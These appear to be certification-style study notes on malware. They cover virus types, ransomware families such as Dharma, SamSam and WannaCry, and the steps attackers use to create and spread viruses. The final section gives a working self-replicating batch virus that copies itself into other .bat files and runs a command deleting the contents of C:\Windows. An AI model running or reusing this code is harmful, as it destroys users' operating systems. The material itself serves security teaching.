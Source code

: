 * Direct Action or Transient Virus 
* Terminate & Stay Resident Virus

### Ransomware

Ransomware is a type of malware that restricts access to the computer system’s files and folders and demands an online ransom payment to the malware creator\(s\) to remove the restrictions.

Ransomware Families:

* Cerber 
* CTB-Locker 
* Sodinokibi 
* BitPaymer 
* CryptXXX 
* Cryptorbit ransomware 
* Crypto Locker Ransomware 
* Crypto Defense Ransomware 
* Crypto Wall Ransomware
* Dharma: Dharma is a dreadful ransomware that attacks victims through email campaigns; the ransom notes ask the victims to contact the threat actors via a provided email address and pay in bitcoins for the decryption service
* eCh0raix: eCh0raix is a new ransomware that specifically targets Linux devices with QNAP Network Attached Storages \(NAS\) by employing the AES encryption technique
* SamSam: SamSam is a notorious ransomware that has infected millions of unpatched servers by employing the RSA-2048 asymmetric encryption technique

Some additional ransomware are as follows:

* WannaCry 
* Petya - NotPetya 
* GandCrab 
* MegaCortex 
* LockerGoga 
* NamPoHyu 
* Ryuk 
* Cryptgh0st

### How to Infect Systems Using a Virus

Attackers can infect systems using a virus in the following steps:

* Creating Virus 
* Propagating and Deploying Virus

Creating a Virus A virus can be created in two ways: writing a virus program, and using virus maker tools.

#### Writing a Simple Virus Program:

The following steps are involved in writing a simple virus program:

1. Create a batch file Game.bat with the following text: 

```text
@ echo off 
for %%f in (*.bat) do copy %%f + Game.bat 
del c:\Windows\*.*
```
